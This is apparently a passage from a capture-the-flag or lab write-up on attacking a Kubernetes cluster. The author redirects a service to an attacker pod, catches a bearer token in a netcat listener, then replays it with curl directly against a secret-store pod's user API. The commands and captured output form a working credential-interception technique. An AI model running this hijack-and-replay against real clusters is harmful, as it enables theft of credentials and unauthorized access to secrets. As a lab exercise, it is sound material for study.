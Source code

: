 The service should redirect requests to our pod, we just need to `exec` in and start our netcat listener.

```bash
kubectl exec -it tools -n private-services -- /bin/bash

id
uid=1000(elit3hex0r) gid=1000(elit3hex0r) groups=1000(elit3hex0r)
nc -nlvp 9090
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:9090
Ncat: Listening on 0.0.0.0:9090
GET /api/v1/users HTTP/1.1
Host: secret-store.private-services.svc.cluster.local:5050
User-Agent: curl/8.1.1
Accept: */*
Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Ijc3ZDA0YzViNTllYWI3Njk5MWZhZGRkMDE0OTRiYjc1MzM5NmZkYmIifQ.eyJpc3MiOiJodHRwOi8vZGV4LmRleC5zdmMuY2x1c3Rlci5sb2NhbDo1NTU2L2RleCIsInN1YiI6IkNpUXdPR0U0TmpnMFlpMWtZamc0TFRSaU56TXRPVEJoT1MwelkyUXhOall4WmpVME5qWVNCV3h2WTJGcyIsImF1ZCI6InBvZC1jaGVja2VyIiwiZXhwIjoxNzAwNjU4Nzg1LCJpYXQiOjE3MDA1NzIzODUsImF0X2hhc2giOiJhQWZqcG12NnBGa3ltN2hCSTNSRDJBIiwiZW1haWwiOiJhZG1pbkBwb2QtY2hlY2tlci5sb2NhbCIsImVtYWlsX3ZlcmlmaWVkIjp0cnVlLCJuYW1lIjoiYWRtaW4ifQ.KUlXKzGyeChUzqnQR3Bu57TobcY6SIfQ-R7LYeB6yNX-VIu9NuFgTVQj03862Prw_49N1P1zJnyj8C_XCP3DyxYczzW0xf0Qnu1qlA7pCpkdTA8ogPopiyp9SftvQ1456EclA1jjRacJrZfReWXmdjYximVUIFbpn0DZhIxG7XNZ4kdDVbiG31LcdPOym9VkYzEmSVt5Rxz8B-poPN4avlxhjNAxIgK6cIyIM6mDYiuk1BGy0tuTjWQ1s1G0UnVDKuFEywe35ZqvQjP7_heOY5laujZUBCWXCN4nRvMnIj0awXWd-ghqrD3CQv9nAnKTGHMbV8zHF0R_VD8zoAl47w

Ncat: Connection from 192.168.11.198:43404.
```

Success! We now have a bearer token to use to access the secret store. As we've modified the service, we either have to restore it back to it's original state so that requests are routed to the underlying pod or we can send a request directly to the pod. Let's try the latter but we need to know the pod IP address. We can get this by running the following command.

```bash
root@yamlidator-78f7dfb58f-564rx:/# kubectl get pods -n private-services
kubectl get pods -n private-services
NAME                            READY   STATUS    RESTARTS   AGE
secret-store-59785db8d6-2qgmt   1/1     Running   0          3h30m
tools                           1/1     Running   0          3m13s

root@yamlidator-78f7dfb58f-564rx:/# kubectl get pods secret-store-59785db8d6-2qgmt -n private-services -ojson | jq -r '.status.podIP'
< -n private-services -ojson | jq -r '.status.podIP'
192.168.109.67
```

We can now send a request directly to the pod.

```bash
curl http://192.168.109.67:5050/api/v1/users -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Ijc3ZDA0YzViNTllYWI3Njk5MWZhZGRkMDE0OTRiYjc1MzM5NmZkYmIifQ.eyJpc3MiOiJodHRwOi8vZGV4LmRleC5zdmMuY2x1c3Rlci5sb2NhbDo1NTU2L2RleCIsInN1YiI6IkNpUXdPR0U0TmpnMFlpMWtZamc0TFRSaU56TXRPVEJoT1MwelkyUXhOall4WmpVME5qWVNCV3h2WTJGcyIsImF1ZCI6InBvZC1jaGVja2VyIiwiZXhwIjoxNzAwNjU4Nzg1LCJpYXQiOjE3MDA1NzIzODUsImF0X2hhc2giOiJhQWZqcG12NnBGa3ltN2hCSTNSRDJBIiwiZW1haWwiOiJhZG1pbkBwb2QtY2hlY2tlci5sb2NhbCIsImVtYWlsX3ZlcmlmaWVkIjp0cnVlLCJuYW1lIjoiYWRtaW4ifQ.KUlXKzGyeChUzqnQR3Bu57TobcY6SIfQ-R7LYeB6yNX-VIu9NuFgTVQj03862Prw_49N1P1zJnyj8C_XCP3DyxYczzW0xf0Qnu1qlA7pCpkdTA8ogPopiyp9SftvQ1456EclA1jjRacJrZfReWXmdjYximVUIFbpn0DZhIxG7XNZ4kdDVbiG31LcdPOym9VkYzEmSVt5Rxz8B-poPN4avlxhjNAxIgK6cIyIM6mDYiuk1BGy0tuTjWQ1s1G0UnVDKuFEywe35ZqvQjP7_heOY5laujZUBCWXCN4nRvMnIj0awXWd-ghqrD3CQv9nAnKTGHMbV8zHF0R_VD8zoAl47w'
<RvMnIj0awXWd-ghqrD3CQv9nAnKTGHMbV8zHF0R_VD8zoAl47w'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1478  100  1478    0     0   481k      0 --:--:-- --:--:-- --:--:--  721k
```